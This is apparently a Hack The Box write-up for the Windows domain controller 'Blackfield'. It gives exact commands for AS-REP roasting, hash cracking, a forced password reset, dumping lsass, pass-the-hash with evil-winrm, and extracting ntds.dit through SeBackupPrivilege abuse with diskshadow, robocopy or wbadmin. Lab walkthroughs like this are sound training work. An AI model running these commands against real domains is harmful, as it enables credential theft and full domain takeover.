

## Overview

Blackfield is a Windows 2019 server box running Active Directory and involved some kerberos attacks as well as credential dumping . I started out by AS-REP roasting the support account and recovering the password using hashcat. Bloodhound was used to determine that the support account had rights to change password for the Audit2020 account, which had access to a forensic share with memory dumps. The lsass.dmp file was used with a tool called pypykatz to dump the contents to plain text where I found the password hash for the svc_backup account which provided my with the initial foothold as user. The svc_backup account had SeBackupPrivilege rights on the system which ultimately lead to the extraction of the ntds.dit file and the dump of the domain hashes. Once I had the domain hashes I used them to obtain shell as administrator by authenticating via evil-winrm.


## Enumeration

**Software**  


**Open Ports**  

```
nmap -p- -Pn -n -v -sT 10.10.10.192 -oN results/_full_tcp_nmap.txt
```

* 53/tcp - dns
* 88/tcp - kerberos
* 135/tcp - msrpc
* 389/tcp - ldap
* 445/tcp - smb
* 593/tcp - http-rpc-epmap
* 3268/tcp - ldap
* 5985/tcp -WinRM

**DNS** 

```
dig ANY @10.10.10.192 blackfield.local
```

* SOA - dc01.blackfield.local. hostmaster.blackfield.local.
* A - dc01.blackfield.local

**SMB Shares**

- ADMIN$
- C$
- forensic
- IPC$
- NETLOGON
- profiles$
- SYSVOL

**SYSINFO**

```
Host Name:                 DC01 
OS Name:                   Microsoft Windows Server 2019 Standard Evaluation 
OS Version:                10.0.17763 N/A Build 17763 
OS Manufacturer:           Microsoft Corporation
OS Configuration:           Primary Domain Controller 
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00431-10000-00000-AA435
Original Install Date:     2/1/2020, 11:04:40 AM
System Boot Time:          2/23/2020, 3:13:56 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 142 Stepping 10 GenuineIntel ~1801 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              fr;French (France)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 901 MB
Virtual Memory: Max Size:  5,283 MB
Virtual Memory: Available: 2,891 MB
Virtual Memory: In Use:    2,392 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    BLACKFIELD.local
Logon Server:              \\DC01 
Hotfix(s):                  3 Hotfix(s) Installed. 
                           [01]: KB4514366
                           [02]: KB4512577
                           [03]: KB4512578
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 192.168.86.156 
Hyper-V Requirements:      VM Monitor Mode Extensions: No
                           Virtualization Enabled In Firmware: No
                           Second Level Address Translation: No
                           Data Execution Prevention Available: Yes   
```


## Steps (User)

Typically I'll run a normal port scan checking for open ports and then do a second deeper scan with OS detection, version detection, script scanning, etc (-A). Based on the open port information this was likely a domain controller. Version detection also uncovered the domain name of the domain - blackfield.local. 

```
# Nmap 7.92 scan initiated Mon May  2 07:42:59 2022 as: nmap -p 53,88,135,389,445,593,3268,5985 -A -Pn -n -v -sT -oN results/_targeted_script_tcp_nmap.txt 10.10.10.192
Nmap scan report for 10.10.10.192
Host is up (0.59s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-02 18:50:43Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h07m35s
| smb2-time: 
|   date: 2022-05-02T18:50:48
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  2 07:43:52 2022 -- 1 IP address (1 host up) scanned in 52.94 seconds

```

I poked around at dns and I was able to identify the hostname (dc01). I tried a zone transfer but was unsuccessful.


Neither SMB nor LDAP allowed me to connect anonymously so I decided to use kerbrute which allows me to enumerate accounts that don't require kerberos pre-authentication. With these accounts it's possible to acquire a TGT without first authenticating which can be cracked offline.

```
./kerbrute_linux_amd64 userenum --domain blackfield.local --dc 10.10.1.192 ~/tools/SecLists/Usernames/xato-net-10-million-usernames.txt
```


It took a while but I found a few accounts without pre-authentication. I decided to start with support, using the Impacket's GetNPUsers script to retrieve the account's TGT to see if I could crack it (also known as AS-REP Roasting).

```
~/tools/impacket/examples/GetNPUsers.py blackfield.local/support -format hashcat -outputfile boxes/blackfield/asreproast.log
```


```
$krb5asrep$23$support@BLACKFIELD.LOCAL:ceb3f30518daf012e271a1b591980bb8$aab7c8abd49fff00e66219fa1c00f1fae02ddd80538d2cf083c783decbb4b6eab920e380c0b0821ef4d622557a77b7b015aa826b3be74ed65d7578a0e5dc520289b1e554480f60a8f0a6b077b35d1eac6e12034822399d033c8e9a750b9802ae2ad878571a33e76ded1f77eac72e597e5987105b97b286d2fda2783f699e30c4cf522147596ec939791553f5902682292a140c8ab90bc306efcbe04255addf2ab1229236ca64286a4ca6c6669ed6c52fb9d627a673fff4d04b1eaf8a69726f5274ce395574d9e77704082c0b9c4de01b932453063ced86f10591424dff369f44e160f58c35e2814622cd629ed80a87f11b0ba5a3
```

I gave the result to hashcat with the rockyou password list and successfully recovered the password `#00^BlackKnight`

```
hashcat -m 18200 -a 0 '$krb5asrep$23$support@BLACKFIELD.LOCAL:ceb3f30518daf012e271a1b591980bb8$aab7c8abd49fff00e66219fa1c00f1fae02ddd80538d2cf083c783decbb4b6eab920e380c0b0821ef4d622557a77b7b015aa826b3be74ed65d7578a0e5dc520289b1e554480f60a8f0a6b077b35d1eac6e12034822399d033c8e9a750b9802ae2ad878571a33e76ded1f77eac72e597e5987105b97b286d2fda2783f699e30c4cf522147596ec939791553f5902682292a140c8ab90bc306efcbe04255addf2ab1229236ca64286a4ca6c6669ed6c52fb9d627a673fff4d04b1eaf8a69726f5274ce395574d9e77704082c0b9c4de01b932453063ced86f10591424dff369f44e160f58c35e2814622cd629ed80a87f11b0ba5a3' ~/tools/custom-wordlists/rockyou.txt --force
```


With valid credentials I enumerated the SMB shares again with SMBMap and found that I had read-only access to 4 shares. 

```
smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
```


I like to mount the shares to my local filesystem as opposed to using smbclient because it's easier to view complex directories this way. I checked the SYSVOL share and found information about the password policy but nothing immediately useful.  I moved onto the profiles folder next and it contained lots of folders, but they were all empty. I made a mental note that I could use this information later as the folders appeared to have the format of usernames.

```
sudo mount -t cifs -o username=support //10.10.10.192/profiles$ /mnt/blackfield/
```


I did an ldap dump and while looking through the information I noticed that the usernames did not match the first initial full last name pattern shown in the profiles$ share so the list of folder names was probably useless.


I extracted the list of samaccountnames from the ldapdump and piped it to a file.

```bash
ldapsearch -x -H ldap://10.10.10.192 -D 'blackfield\support' -w '#00^BlackKnight' -b "dc=blackfield,dc=local" "(objectclass=user)"| grep sAMAccountName | awk '{print $2}' > samaccountnames.txt
```

With the list of valid usernames form the domain, I tried running Get-NPUsers again, but unfortunately I did not get any hits. 

I also generated a small list of passwords that use a common format (i.e., Blackfield2019!, Blackfield2020!, Blackrield2020#, etc) to use with a password spray, but I didn't have any luck there either so I moved on.

Next I decided to fire up Bloodhound to see what other rights the support account had. I used the python version of bloodhound which allows for remote dumping of domain information and analyzed the results.

```
~/tools/BloodHound.py/bloodhound.py -c all -u support@blackfield.local -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -gc dc01.blackfield.local --dns-tcp -ns 10.10.10.192
```

The data showed that support had change password rights for the audit2020 account


The next thing I had to do was authenticate as the support user and change Audit2020's password. I jumped over to my commando box where I had powerview installed and used the Set-DomainuserPassword cmdlet to set a new password.

```powershell
$SecPassword = ConvertTo-SecureString '#00^BlackKnight' -AsPlainText -Force                      
$Cred = New-Object System.Management.Automation.PSCredential('BLACKFIELD\support', $SecPassword) 
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity audit2020 -AccountPassword $UserPassword -Credential $Cred -Domain Blackfield.local
```

> I typically like to look at other write-ups once I'm done with a box to see what I could do better or differently. In 0xdf's writeup, he provides a link to a post by Mubix for resetting passwords over RPC which would have allowed me to complete all the tasks on my linux box. https://room362.com/post/2017/reset-ad-user-password-with-linux/


With the Audit2020 account set to a known password, I ran smbmap again and found that this account had read access to the forensic share.


I unmounted the previous share and mounted forensic. The share contained a few tools and other folders containing zip files. The zip files contained .DMP files which I guessed were memory dumps done as part of a forensic investigation (the share name was a big hint). 


The lsass dump stood out, as this is the process that handles user authentication for windows. I came across a tool called pypykatz which is a python implementation of mimikatz, that could read these files and dump the hashes to a file (article [here](https://technicalnavigator.in/how-to-extract-information-from-dmp-files/)).

```
pypykatz lsa minidump forensic/lsass.DMP > lsass.dmp.txt
```


I grabbed the hash for the svc_backup account and fed it into evil-winrm and got a shell.

```
evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'
```


## Steps (root/system)

The ```whoami /priv``` command showed that the account had the SeBackupPrivilege. I researched this permission and not surprisingly, this permission gives read access to the entire filesystem for the purpose of backups. I came across this [article](https://github.com/giuliano108/SeBackupPrivilege) which explains how to use **SeBackupPrivilegeUtils.dll** and **SeBackupPrivilegeCmdLets.dll** to act as backup software in order to take advantage of the increased privileges. After importing the two dll files, I attempted to use the **Copy-FileSeBackupPrivilege** cmdlet to copy the ntds.dit file, but received an error that it was in use. Instead, I used to copy root.txt to the service account's home folder to get the root flag.


I wanted to get an actual privileged shell, so I did more research and came across this [blog](https://pentestlab.blog/tag/diskshadow/) which explains several ways to extract ntds.dit with shadow copy. The diskshadow command is typically used interactively which wouldn't work with my shell, but the command allows for script mode, taking a list of commands that it will execute automatically.

```
set context persistent nowriters
set metadata c:\windows\temp\meta.cab
add volume c: alias six
create
expose %six% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\users\svc_backup\documents\ntds.dit
delete shadows volume %six%
reset
```

> After running the set of scripted commands provided in the blog, I received an error "Could not create .cab metadata file. If the metadata file name was specified using  SET METADATA, the file or directory path name may not be valid." After some research I added the "set metadata" command.

I ran into some issues running the command, the box seemed to be truncating the first line to nowriter which caused it to error out. Because windows uses a carriage return and line feed '\r\n' and linux uses just '\n', I had to convert the line endings to be compatible with windows. 

```
unix2dos shadowscript.txt
```

Afterwards the script ran without issue. I ran the diskshadow command, specifying shadow.txt with the /s parameter which took a snapshot of the filesystem and mounted it to Z:

```
diskshadow /s shadow.txt
```


With the copy now residing in Z:, I was able to successfully copy the ntds folder in backup mode to svc_backup home folder ```robocopy /b z:\windows\ntds c:\users\svc_backup\documents``` , and save a copy of the system hive as it contains the key necessary to dump hashes.



I downloaded the files to my local machine and used Impacket's secretsdump to dump the domain hashes.

```
secretsdump.py -system system.bak -ntds ntds.dit LOCAL
```


I was then able to authenticate as administrator using the hash.


## Alternate Method to get NTDS.dit file

Wbadmin is a backup utility built into windows since Windows Server 2008, and uses an elevated command prompt for the purpose of backups. I read that this was an alternative method of gaining access to the ntds.dit file, and it worked as advertised. 

```
wbadmin start backup -quiet -backuptarget:\\dc01\c$\temp -include:c:\windows\ntds
```


```
wbadmin get versions
wbadmin start recovery -quiet -version:05/11/2022-19:43 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
```


